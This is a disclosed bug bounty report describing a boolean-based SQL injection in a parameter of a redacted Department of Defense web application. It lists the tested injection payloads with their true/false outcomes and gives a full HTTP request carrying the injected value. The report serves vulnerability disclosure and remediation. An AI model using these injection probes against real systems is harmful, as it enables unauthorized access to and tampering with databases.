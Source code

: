 # SQL injection my method -1 OR 3*2*1=6 AND 000159=000159

## Report Details
- **Report ID**: 1250293
- **URL**: https://hackerone.com/reports/1250293
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2021-07-02T21:26:12.529Z
- **Disclosed**: 2021-07-29T19:51:13.408Z

## Reporter
- **Username**: lu3ky-13
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
URL:
    https://█████

Parameter:
    ███

Attack Details

JSON input █████ was set to -1 OR 3*2*1=6 AND 000159=000159

Tests performed:

    -1 OR 2+159-159-1=0+0+0+1 => TRUE
    -1 OR 3+159-159-1=0+0+0+1 => FALSE
    -1 OR 3*2<(0+5+159-159) => FALSE
    -1 OR 3*2>(0+5+159-159) => FALSE
    -1 OR 2+1-1+1=1 AND 000159=000159 => FALSE
    -1 OR 3*2=5 AND 000159=000159 => FALSE
    -1 OR 3*2=6 AND 000159=000159 => TRUE
    -1 OR 3*2*0=6 AND 000159=000159 => FALSE
    -1 OR 3*2*1=6 AND 000159=000159 => TRUE

Original value: 51 

Vulnerability Description

SQL injection (SQLi) refers to an injection attack wherein an attacker can execute malicious SQL statements that control a web application's database server.

## Impact

An attacker can use SQL injection to bypass a web application's authentication and authorization mechanisms and retrieve the contents of an entire database. SQLi can also be used to add, modify and delete records in a database, affecting data integrity. Under the right circumstances, SQLi can also be used by an attacker to execute OS commands, which may then be used to escalate an attack even further.

## System Host(s)
██████

## Affected Product(s) and Version(s)


## CVE Numbers


## Steps to Reproduce
http request
==============
POST /█████0 HTTP/1.1
Content-Type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest
Referer: https://███/
Cookie: ASP.NET_SessionId=███████
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Encoding: gzip,deflate
Content-Length: 1031
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4298.0 Safari/537.36
Host: █████████
Connection: Keep-alive

██████&__EVENTARGUMENT=-%7Cpublic%7CGetDirs&__EVENTTARGET=ResourceManager1&__EVENTVALIDATION=oSBfIwV8vHrmOrmbrTnFRCqXUL/aKiWgwUHyEAR99v8UPlosE%2BoGKWAXIyeVlw6XRDeycmf020z48gy5%2BWyZMfDNWeC00FVAC4Bfg6/TkHzFdksbhJywKOVC0yTqOA2uNp5XjQ==&__VIEWSTATE=█████&__VIEWSTATEENCRYPTED=&__VIEWSTATEGENERATOR=3257FB69&submitDirectEventConfig={"config":{"extraParams":{"sDirID":"-1%20OR%203*2*1=6%20AND%20000159=000159"}}}&txtSearchBox=the


```

    <script type="text/javascript">
    //<![CDATA[
        ████████);
    //]]>
    </script>
</head>

 <body>
 
  <form method="post" action="./███0" id="Form1" style="margin:0 auto 0 auto;">
<div class="aspNetHidden">
<input type="hidden" name="__EVENTTARGET" id="__EVENTTARGET" value="" />
<input type="hidden" name="__EVENTARGUMENT" id="__EVENTARGUMENT" value="" />
<input type="hidden" name="__VIEWSTATE" id="__VIEWSTATE" value="██████████" />
</div>
```

## Suggested Mitigation/Remediation Actions




## Attachments
No attachments
